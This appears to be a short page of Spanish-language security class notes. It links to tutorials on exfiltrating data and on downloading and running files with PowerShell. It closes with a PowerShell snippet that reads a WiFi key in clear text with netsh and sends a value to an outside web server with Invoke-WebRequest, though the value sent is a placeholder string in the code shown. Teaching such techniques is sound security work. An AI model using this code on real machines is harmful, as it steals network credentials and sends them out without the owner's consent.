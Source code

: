 # Enviar una contraseña utilizando un servidor web
* https://www.jesusninoc.com/02/11/hacking-wifi-with-powershell/
# Formas de descargar y ejecutar ficheros desde un servidor en PowerShell utilizando Invoke-WebRequest
* https://www.jesusninoc.com/05/26/formas-de-descargar-y-ejecutar-ficheros-desde-un-servidor-en-powershell-utilizando-invoke-webrequest/
# Uncover Tiny URLs
* https://github.com/jesusninoc/ClasesSeguridad/blob/master/2018-03-08.md
# Enviar informacion sobre equipos utilizando un servidor web
* https://www.jesusninoc.com/12/02/obtener-serial-de-windows-con-powershell/
* https://www.jesusninoc.com/10/21/almacenar-entradas-cache-dns-en-un-fichero/

# Enviar la contraseña de la red WIFI a una web
```PowerShell
$contra = (netsh wlan show interface | Select-String SSID)[0] | %{
[String]$SSID=$_
$SSID=$SSID.replace("SSID","").replace(":","").trim()
$SSID
netsh wlan show profile name=$SSID key=clear | Select-String 'Contenido de la clave'
}

$contra="jlajsdf"
Invoke-WebRequest ("http://www.jesusninoc.com/"+$contra)
```
